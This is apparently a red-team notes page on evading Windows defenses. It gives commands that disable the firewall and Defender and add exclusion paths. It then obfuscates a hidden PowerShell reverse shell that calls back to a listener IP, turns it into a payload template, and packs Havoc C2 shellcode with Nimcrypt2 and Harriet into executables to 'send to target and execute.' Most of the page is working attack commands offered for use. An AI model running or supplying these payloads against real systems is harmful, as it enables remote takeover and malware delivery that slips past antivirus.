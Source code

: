https://github.com/sinfulz/JustEvadeBro

#### Windows - CMD
```batch - windows
netsh advfirewall show currentprofile
```

```batch - windows
netsh Advfirewall set allprofiles state off
```

#### Windows - PowerShell
To display a list of cmdlets contained in the Defender module, run the following command:
```powershell - windows
Get-Command -Module Defender
```

How to Check if Windows Defender is Running?
```powershell - windows
Get-service Windefend
```

`Running     Windefend          Windows Defender Antivirus Service`

To remove an exception for a specific folder:
```powershell - windows
Add-MpPreference -ExclusionPath C:\Users\scripting\AppData\Local\Temp\Tools
```

#### Disable AntiVirus
If you want to disable Defender real-time protection:
```powershell - windows
Set-MpPreference -DisableRealtimeMonitoring $true
```

To completely disable Windows Defender on a computer, use the command:
```powershell - windows
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

#### Windows - RDP

Disable firewall settings form control panel


#### PowerShell manual obfuscation


https://www.youtube.com/watch?v=grSBdZdUya0

First, we can use python to help us generate random variable names:

variableMaker.py
```
import uuid

for i in range(5):
	print(uuid.uuid4().hex)
```

`538a51e8aa53457cb601dd02a400bab6`
`50f1f6254b714beeb46831001a6c0d8d`
`b4fc0ef7c0b84e14908eab3d2cdee855`
`30cc8376e962406993f2277039e78572`
`8b7b10a8012345699cc77439c1fac7ad`

Start replacing the following variables:

`$client`
`$bytes`
`$stream`

`Start-Process $PSHOME\powershell.exe -ArgumentList {$538a51e8aa53457cb601dd02a400bab6 = New-Object System.Net.Sockets.TCPClient('192.168.19.129',4443);$b4fc0ef7c0b84e14908eab3d2cdee855 = $538a51e8aa53457cb601dd02a400bab6.GetStream();[byte[]]$50f1f6254b714beeb46831001a6c0d8d = 0..65535|%{0};while(($i = $b4fc0ef7c0b84e14908eab3d2cdee855.Read($50f1f6254b714beeb46831001a6c0d8d, 0, $50f1f6254b714beeb46831001a6c0d8d.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($50f1f6254b714beeb46831001a6c0d8d,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$b4fc0ef7c0b84e14908eab3d2cdee855.Write($sendbyte,0,$sendbyte.Length);$b4fc0ef7c0b84e14908eab3d2cdee855.Flush()};$538a51e8aa53457cb601dd02a400bab6.Close()} -WindowStyle Hidden`

Next, remove the beginning and end of command:

`$538a51e8aa53457cb601dd02a400bab6 = New-Object System.Net.Sockets.TCPClient('192.168.19.129',4443);$b4fc0ef7c0b84e14908eab3d2cdee855 = $538a51e8aa53457cb601dd02a400bab6.GetStream();[byte[]]$50f1f6254b714beeb46831001a6c0d8d = 0..65535|%{0};while(($i = $b4fc0ef7c0b84e14908eab3d2cdee855.Read($50f1f6254b714beeb46831001a6c0d8d, 0, $50f1f6254b714beeb46831001a6c0d8d.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($50f1f6254b714beeb46831001a6c0d8d,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$b4fc0ef7c0b84e14908eab3d2cdee855.Write($sendbyte,0,$sendbyte.Length);$b4fc0ef7c0b84e14908eab3d2cdee855.Flush()};$538a51e8aa53457cb601dd02a400bab6.Close()`

Next, we can start adding single and double quotes to iex commands

```
$538a51e8aa53457cb601dd02a400bab6 = New-Object System.Net.Sockets.TCPClient('192.168.19.129',4443);$b4fc0ef7c0b84e14908eab3d2cdee855 = $538a51e8aa53457cb601dd02a400bab6.GetStream();[byte[]]$50f1f6254b714beeb46831001a6c0d8d = 0..65535|%{0};while(($i = $b4fc0ef7c0b84e14908eab3d2cdee855.Read($50f1f6254b714beeb46831001a6c0d8d, 0, $50f1f6254b714beeb46831001a6c0d8d.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($50f1f6254b714beeb46831001a6c0d8d,0, $i);$sendback = (i""e''x $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$b4fc0ef7c0b84e14908eab3d2cdee855.Write($sendbyte,0,$sendbyte.Length);$b4fc0ef7c0b84e14908eab3d2cdee855.Flush()};$538a51e8aa53457cb601dd02a400bab6.Close()
```

You can now use this as a template `Villain/Core/payload_templates/windows/netcat/powershell_reverse_tcp.py`

```
data = Start-Process $PSHOME\powershell.exe -ArgumentList {$538a51e8aa53457cb601dd02a400bab6 = New-Object System.Net.Sockets.TCPClient('*LHOST*',*LPORT*);$b4fc0ef7c0b84e14908eab3d2cdee855 = $538a51e8aa53457cb601dd02a400bab6.GetStream();[byte[]]$50f1f6254b714beeb46831001a6c0d8d = 0..65535|%{0};while(($i = $b4fc0ef7c0b84e14908eab3d2cdee855.Read($50f1f6254b714beeb46831001a6c0d8d, 0, $50f1f6254b714beeb46831001a6c0d8d.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($50f1f6254b714beeb46831001a6c0d8d,0, $i);$sendback = (i""e''x $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$b4fc0ef7c0b84e14908eab3d2cdee855.Write($sendbyte,0,$sendbyte.Length);$b4fc0ef7c0b84e14908eab3d2cdee855.Flush()};$538a51e8aa53457cb601dd02a400bab6.Close()} -WindowStyle Hidden
```


#### nimcrypt

Installation:
```
git clone https://github.com/icyguider/Nimcrypt2
```

```
sudo apt install gcc mingw-w64 xz-utils git
```

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

```
echo “export PATH=$HOME/.nimble/bin:$PATH” >> ~/.bashrc
```

```
export PATH=$HOME/.nimble/bin:$PATH
```

```
nimble install winim nimcrypto docopt ptr_math strenc
```

```
cd Nimcrypt2
```

```
nim c -d=release --cc:gcc --embedsrc=on --hints=on --app=console --cpu=amd64 --out=nimcrypt nimcrypt.nim
```

Using bin shellcode from [[C2 - Havoc]]
```
mv havoc.bin havoc.raw
```

```
./nimcrypt -f /home/kali/Desktop/havoc.raw -t raw -o /home/kali/Desktop/havoc.exe -p svchost -u
```

#### Harriet

```
git clone https://github.com/assume-breach/Home-Grown-Red-Team.git
```

```
cd ~/Desktop/Home-Grown-Red-Team/Harriet
```

```
sudo ./setup.sh
```

```
sudo ./Harriet.sh
```

Select an option (1 for demo)

Select the .bin file created from [[C2 - Havoc]].

Gave malware name.

If you get package error here, try:
[[10._TOOLS/Python#error: externally-managed-environment]]

[[10._TOOLS/Python#Server]]

Send to target and execute.

In Havoc, make take a minute for victim box to show up.

Right click > Interact

![SessionConsoleHelp.png | 1000](https://github.com/HavocFramework/Havoc/blob/main/Assets/Screenshots/SessionConsoleHelp.png?raw=true)




